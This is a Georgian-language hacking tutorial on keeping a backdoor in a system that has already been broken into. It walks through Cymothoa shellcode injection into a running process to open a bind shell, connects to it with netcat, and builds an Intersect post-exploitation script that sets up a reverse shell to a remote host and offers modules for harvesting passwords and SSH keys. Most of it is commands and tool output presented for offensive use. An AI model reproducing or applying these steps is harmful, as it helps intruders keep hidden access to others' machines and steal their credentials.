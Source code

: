 # შესავალი

ვთქვათ შენ სისტემა გატეხე და შიგ შეახწიე, დრო გავიდა და სისუსტე რომლის ექსპლუატაციაც მოახერხე აღარ არსებობს იმიტომ რომ სისტემის ადმინისტრატორმა აფდეითი გააკეთა და პროგრამას რომელსაც სისუსტე ქონდა სხვა ვერსიისაა რომელსაც სისუსტე აღარა აქვს. სისტემაში რომ დარჩე ისე რომ ახლიდან შეგეძლოს დაბრუნება გჭირდება ბექდორი რომლის მეშვეობთაც კავშირს ხელახლა დაამყარებ.

# Cymothoa

Cymothoa არის ბექდორული ხელსაწყო რომელიც გაძლევს საშუალებას რომ შელკოდის ინექცია განახორციელო სხვა პრცესში (გაშვებულ პროგრამაში). ასე ბექდორი სხვა პროცესში მოქმედებს რასაც ადმინისტრატორის ყურადღებას არ იწვევს, არც უშიშროების სკანერების თუ მეხსიერების ანალიზი არ განხორციელდა.

აუცილებელი პარამეტრებია:
  * -p (process ID, PID): პროცესის ნომერი რომელშიც ინექცია განხორციელდება
  * -s: შელკოდის ნომერი

შელშკოდების სიის ნახვა:

```
hacker@kali ~> cymothoa -S

0 - bind /bin/sh to the provided port (requires -y)
1 - bind /bin/sh + fork() to the provided port (requires -y) - izik <izik@tty64.org>
2 - bind /bin/sh to tcp port with password authentication (requires -y -o)
3 - /bin/sh connect back (requires -x, -y)
4 - tcp socket proxy (requires -x -y -r) - Russell Sanford (xort@tty64.org)
5 - script execution (see the payload), creates a tmp file you must remove
6 - forks an HTTP Server on port tcp/8800 - http://xenomuta.tuxfamily.org/
7 - serial port busybox binding - phar@stonedcoder.org mdavis@ioactive.com
8 - forkbomb (just for fun...) - Kris Katterjohn
9 - open cd-rom loop (follows /dev/cdrom symlink) - izik@tty64.org
10 - audio (knock knock knock) via /dev/dsp - Cody Tubbs (pigspigs@yahoo.com)
11 - POC alarm() scheduled shellcode
12 - POC setitimer() scheduled shellcode
13 - alarm() backdoor (requires -j -y) bind port, fork on accept
14 - setitimer() tail follow (requires -k -x -y) send data via upd
```

გატეხილ სისტემაში უნდა გადაიტანო პროგრამა cymothoa რომ ბექდორი შექმნა რომელიმე აქტიურ პროცესში შელკოდის ინექციით.

გაშვებული პროცესების სიის სანახავთ:

```
hacker@kali ~> ps -aux
```

შევქმათ ბექდორი რომელიც აეკიდება პროცესს ნომერ 3287, გაუშვებს ნომერ პირველ შელკოდს და კავშირის დამყარება შესაძლებელი იქნება პორტ ნომერ 3000-ზე:
```
hacker@kali ~> ./cymothoa -p 3287 -s 1 -y 3000
```

ბექდორთან დაკავშირება:

გატეხილი კომპიუტერის მისამართია: 168.0.1.4

```
hacker@kali ~> nc –nvv 168.0.1.4 3000
```

**ყურადღებით**:
რადგამ ბექდორი აკიდებულია გაშევბულ პროცესს, ეს ნიშნავს რომ როცა პროცესი გაუქმდება, მაგალითად მომხმარე ამ პროგრამას გამორთავს, ბექდორის გამოირთვება. ან როცა მომხმარე კომპიუტერს გამორთავს.
ასეთი პირებობში გადამჩენ ბექდორებს ეძახიან მუდმივ ბექდორებს (persistent backdoors).

# Intersect

Intersect-ი არის ხელსაწყო რომლის მეშვეობით შეგიძლია გატეხვის შემდგომ სხვადასხვა საქმის ავტომატიზაცია როგორიცაა პაროლის ფაილების შეგროვენა, ssh გასაღებების კოპირება, ინფრომაციის დაგროვება ქსელის შესახებ, ანტივირუსის და ფაირვლის პროგრამების დადგენა.

ეს ყველაფერი რომ მოხდეს, intersect-ი გთავაზობს არჩევნების გაკეთებას და პარამეტრების შევსებას რომ მან შექმნას სკრიპტი პითონში.
მხოლოდ 3 ეტაპია საჭირო:
  * არჩიე სასურველი მოდულები
  * მიუთითე პარამეტრები (პორტი, ჰოსტი)
  * შეაქმევინე სკრიპტი

როცა გაუშვებ intersect-ს, იბეჭდება ესეთი მენიუ:

```
hacker@kali ~> sudo intersect 
                         
              ___         __                                     __   
             |   |.-----.|  |_ .-----..----..-----..-----..----.|  |_ 
             |.  ||     ||   _||  -__||   _||__ --||  -__||  __||   _|
             |.  ||__|__||____||_____||__|  |_____||_____||____||____|
             |:  | post-exploitation framework                                                    
             |::.|                                                   
             `---'                                                    


Intersect 2.5 - Script Creation Utility
------------------------------------------
1 => Create Custom Script
2 => List Available Modules
3 => Load Plugin Module
4 => Exit Creation Utility


 => 1 
```

აირჩიე 1 (**Create Custom Script**).

```
Intersect 2.0 - Script Generation Utility
---------- Create Custom Script -----------

 Instructions: 

Use the console below to create your custom
Intersect script. Type the modules you wish 
to add, pressing [enter] after each module. 
Example:
 => creds
 => network

When you have entered all your desired modules
into the queue, start the build process by typing :create. 

** To view a full list of all available commands type :help.
The command :quit will return you to the main menu.

 =>  
```

მოდულების სანახავად ჩაწერე **:modules**
მოდულის შესარჩევად ჩაწერ მოდულის სახელწოდებას.

```
=>  :modules
archive  bshell  creds	daemon	extras	lanmap	network  osuser  reversexor  rshell  scrub  xorshell
aeshttp  egressbuster  getrepos  icmpshell  openshares	persistent  portscan  privesc  sniff  udpbind  webproxy  xmlcrack  xmpp
```

რომ გაეცნო ინფორმაციას მაგალითად creds მოდულზე, ჩაწერე :**info creds**

```
=>  :info creds

Description:  Gather user and system credentials. Looks for passwords, SSH keys, SSL certs, certain application creds, user histories and more.
 
Author:  ohdae [bindshell@live.com]
```

ვირჩევთ მოდულ reversexor-ს.

```
=>  reversexor
reversexor added to queue.
```

შევაქმნევინოთ სკრიპტი, ვბეჭდავთ **:create**-ს და მივუთითებთ პარამეტრებს.
```
 =>  :create

[ Set Options ]
If any of these options don't apply to you, press [enter] to skip.
Enter a name for your Intersect script. The finished script will be placed in the Scripts directory. Do not include Python file extension.
 =>  newbiexample
Script will be saved as /usr/share/intersect/Scripts/newbiexample.py

Specify the directory on the target system where the gathered files and information will be saved to.
*Important* This should be a NEW directory. When exiting Intersect, this directory will be deleted if it contains no files.
If you skip this option, the default (/tmp/lift+$randomstring) will be used.
temp directory  =>  
enable logging  =>  
bind port  =>  1234
[+] bind port saved.
remote host  =>  168.0.1.4
[+] remote host saved.
remote port  =>  7654
[+] remote port saved.
proxy port  =>  8769
[+] proxy port saved.
xor cipher key  =>  5433
[+] xor key saved.
reversexor

[+] Your custom Intersect script has been created!
   Location: /usr/share/intersect/Scripts/newbiexample.py
```
